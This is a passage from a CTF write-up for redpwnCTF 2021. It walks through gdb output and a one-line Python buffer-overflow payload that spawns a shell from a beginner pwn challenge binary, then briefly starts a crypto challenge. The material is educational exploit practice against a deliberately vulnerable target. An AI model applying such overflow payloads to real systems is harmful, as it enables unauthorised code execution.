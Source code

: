 Now let's let execution continue as normal by using the `continue` command:

```
(gdb) continue
Continuing.
[Detaching after vfork from child process 22950]
[Inferior 1 (process 22947) exited normally]
```

This might seem underwhelming, but our explit works! A child process was
spawned, and as a bonus, we didn't get any segmentation faults! The reason we
don't get an interactive shell is because we used python to pipe input into the
program which makes it non-interactive.

At this point I was about 12 hours in of straight gdb hell, and I was very
happy to see this shell. After discovering this, I immediately tried it outside
the debugger and was dissapointed to see that my exploit didn't work. After a
small panick attack I found out this was because of my environment variables.
You can launch an environment-less shell by using the `env -i sh` command:

```
λ generic → λ git master* → env -i sh
sh-5.1$ python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)" | ./beginner-generic-pwn-number-0
"𝘭𝘦𝘵𝘴 𝘣𝘳𝘦𝘢𝘬 𝘵𝘩𝘦 𝘵𝘳𝘢𝘥𝘪𝘵𝘪𝘰𝘯 𝘰𝘧 𝘭𝘢𝘴𝘵 𝘮𝘪𝘯𝘶𝘵𝘦 𝘤𝘩𝘢𝘭𝘭 𝘸𝘳𝘪𝘵𝘪𝘯𝘨"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
sh-5.1$ # another shell :tada:
```

Now it was time to actually do the exploit on the remote server.

I whipped up the most disgusting and janky python code that I won't go into
detail about, but here's what is does (in short):

1. Create a thread to capture data from the server and forward it to `stdout`
2. Capture user commands using `input()` and decide what to do with them on the main thread

The code for this script can be found
[here](https://github.com/lonkaars/redpwn/blob/master/challenges/generic/pwn.py),
though be warned, it's _very_ janky and you're probably better off copying
stuff from stackoverflow. Writing your own tools is more fun though, and might
also be faster than trying to wrestle with existing tools to try to get them to
do exactly what you want them to do. In this case I could've also just used [a
simple
command](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection?noredirect=1&lq=1).

It did help me though and I actually had to copy it for use in the other buffer
overflow challenge that I solved, so I'll probably refactor it someday for use
in other CTFs.

### crypto/round-the-bases

This crypto challenge uses a text file with some hidden information. If you
open up the file in a text editor, and adjust your window width, you'll
eventually see the repeating pattern line up. This makes it very easy to see
what part of the pattern is actually changing:


[meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek, Willem)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)